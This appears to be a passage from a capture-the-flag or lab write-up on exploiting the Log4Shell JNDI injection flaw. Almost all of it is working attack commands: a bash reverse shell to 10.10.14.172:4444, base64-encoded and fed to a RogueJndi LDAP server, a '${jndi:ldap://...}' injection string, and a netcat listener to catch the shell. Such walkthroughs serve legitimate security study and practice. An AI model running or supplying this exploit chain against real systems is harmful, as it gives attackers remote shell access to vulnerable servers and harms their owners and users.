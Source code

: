 ```
echo 'bash -c bash -i >&/dev/tcp/10.10.14.172/4444 0>&1' | base64
```

ENCODED REVERSE SHELL: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTcyLzQ0NDQgMD4mMQo=

```
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTcyLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.172"
```

![Rogue](./rogue.png)

JNDI QUERY: ${jndi:ldap://10.10.14.172:1389/o=tomcat}

```
sudo nc -nlvp 4444
```

![Burp 3](./burp3.png)
